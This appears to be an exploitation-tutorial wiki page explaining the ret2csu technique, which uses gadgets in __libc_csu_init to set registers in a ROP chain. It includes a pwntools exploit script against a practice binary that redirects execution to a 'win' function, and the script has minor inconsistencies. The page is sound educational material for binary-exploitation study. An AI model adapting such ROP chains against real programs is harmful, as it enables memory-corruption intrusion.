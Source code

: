 # Ret2csu

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

**ret2csu** is a hacking technique used when you're trying to take control of a program but can't find the **gadgets** you usually use to manipulate the program's behavior.&#x20;

When a program uses certain libraries (like libc), it has some built-in functions for managing how different pieces of the program talk to each other. Among these functions are some hidden gems that can act as our missing gadgets, especially one called `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

In `__libc_csu_init`, there are two sequences of instructions (our "magic gadgets") that stand out:

1. The first sequence lets us set up values in several registers (rbx, rbp, r12, r13, r14, r15). These are like slots where we can store numbers or addresses we want to use later.

```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```

This gadget allows us to control these registers by popping values off the stack into them.

2. The second sequence uses the values we set up to do a couple of things:
   * **Move specific values into other registers**, making them ready for us to use as parameters in functions.
   * **Perform a call to a location** determined by adding together the values in r15 and rbx, then multiplying rbx by 8.

```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```

## Example

Imagine you want to make a syscall or call a function like `write()` but need specific values in the `rdx` and `rsi` registers as parameters. Normally, you'd look for gadgets that set these registers directly, but you can't find any.

Here's where **ret2csu** comes into play:

1. **Set Up the Registers**: Use the first magic gadget to pop values off the stack and into rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), and r15.
2. **Use the Second Gadget**: With those registers set, you use the second gadget. This lets you move your chosen values into `rdx` and `rsi` (from r14 and r13, respectively), readying parameters for a function call. Moreover, by controlling `r15` and `rbx`, you can make the program call a function located at the address you calculate and place into `[r15 + rbx*8]`.

You have an [**example using this technique and explaining it here**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), and this is the final exploit it used:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```

{% hint style="warning" %}
Note that the previous exploit isn't meant to do a **`RCE`**, it's meant to just call a function called `win` (taking the address of `win` from stdin calling gets in the ROP chain and storing it in r15) with a third argument with the value `0xdeadbeefcafed00d`.
{% endhint %}

### Why Not Just Use libc Directly?

Usually these cases are also vulnerable to [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), but sometimes you need to control more parameters than are easily controlled with the gadgets you find directly in libc. For example, the `write()` function requires three parameters, and **finding gadgets to set all these directly might not be possible**.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
